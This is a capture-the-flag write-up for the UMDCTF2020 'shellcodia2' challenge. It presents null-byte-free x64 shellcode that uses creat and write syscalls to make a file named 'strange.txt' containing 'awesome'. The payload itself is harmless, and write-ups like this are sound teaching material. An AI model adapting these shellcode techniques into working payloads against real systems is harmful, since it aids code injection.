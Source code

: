 ### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/JNF) 



## shellcodia2 (600pt)
### Description

> Welcome back to shellcodia! You know the drill. Simply connect, submit your shellcode in binary form, and if  you've completed the challenge then a flag will return. This challenge  requires you to create a file named `strange.txt` and put the string `awesome` inside. Now, a few things to remember, these are x64 machines so don't think  you can sneak by with 32bit shellcode. Additionally, the environment  assumes nothing about the shellcode you give it. It's highly unlikely  that if you break the environment, even if you accomplished the goal,  you will get the flag. 
>
> Submit your shellcode to: `157.245.88.100:7779` Good luck! 
>
> Author: `quantumite (BlueStar)` 
>
> (Note: flag is in `UMDCTF{}` format)

### Analysis

Goal: create a file named `strange.txt` and put the string `awesome` inside.

We can use `syscall` to finish it.

```nasm
rax = SYS_creat("strange.txt",0777);
SYS_write(rax, "awesome" ,7);
```

### Solution

```nasm
push 0x1010101 ^ 0x747874
xor dword ptr [rsp], 0x1010101
mov rax, 0x2e65676e61727473
push rax
mov rdi, rsp
mov rsi, 0x1ff
/* call creat() */
mov rax, SYS_creat /* 0x55 */
syscall

mov rdi, rax   /* fd */

mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x656d6f73657761
xor [rsp], rax
mov rsi, rsp
mov rdx, 0x7
/* call write() */
mov rax, SYS_write /* 1 */
syscall

/* stack balance*/
pop rcx
pop rcx
pop rcx

ret
```